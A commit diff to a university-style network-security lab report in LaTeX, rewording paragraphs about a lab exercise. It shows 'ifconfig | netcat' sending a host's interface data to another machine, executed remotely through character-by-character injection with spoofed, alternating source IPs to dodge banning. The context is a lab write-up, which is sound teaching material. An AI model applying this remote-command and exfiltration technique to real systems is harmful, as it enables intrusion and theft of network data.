

Before and after one commit to enp83/netsec2_report, a LaTeX document (report_LaTeX/lab_report_1.tex): two parts of pages 7 and 8 of 8, joined at a grey line, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
update by p

```diff
--- a/report_LaTeX/lab_report_1.tex
+++ b/report_LaTeX/lab_report_1.tex
@@ -291,10 +291,10 @@ The command the needed to be executed on the other computer is:
 ifconfig | netcat 192.168.67.31 1024
 \end{verbatim}
 
-Using the capabilities explored in the previous section, the code was pieced together by using the decimal values of the ASCII characters of the command, and wrote bash script that executed the command for each character. A carriage return was included at the end to execute the command. In order to avoid being banned by Jerry's computer, the destination IPs, and therefore the spoofed source IPs were alternated for each line. (see the file netcat\_ifconfig.sh in the directory workfiles/Ex3)
+Using the capabilities explored in the previous section it is now possible to execute remote code. The code was pieced together by using the decimal values of the ASCII characters. A bash script was written that executes the command for each character. A carriage return was included at the end to execute the command. In order to avoid being banned by Jerry's computer, the destination IPs, and therefore the spoofed source IPs were alternated for each line. (see the file netcat\_ifconfig.sh in the directory workfiles/Ex3)
 
 \newpage
-After running the script the ifconfig information of Jerry's computer can be seen on Tom's Terminal:
+After running the script the ifconfig information of Jerry's computer is sent and displayed on Tom's Terminal:
 
 \begin{verbatim}
 eth0      Link encap:Ethernet  HWaddr 94:de:80:6f:2e:55
@@ -325,6 +325,6 @@ p3p1      Link encap:Ethernet  HWaddr 94:de:80:6f:2e:45
           Interrupt:19
 \end{verbatim}
 
-We could now use this information about the network interfaces to start capturing packets on the target's network and send this captured traffic back to our computer.
+It is now possible to use the information from the network interface to start capturing packets on the target network and send the captured traffic back to tom's computer.
 
 \end{document}
```
Also changed, not shown: report_LaTeX/lab_report_1.tex (2 more changed lines).
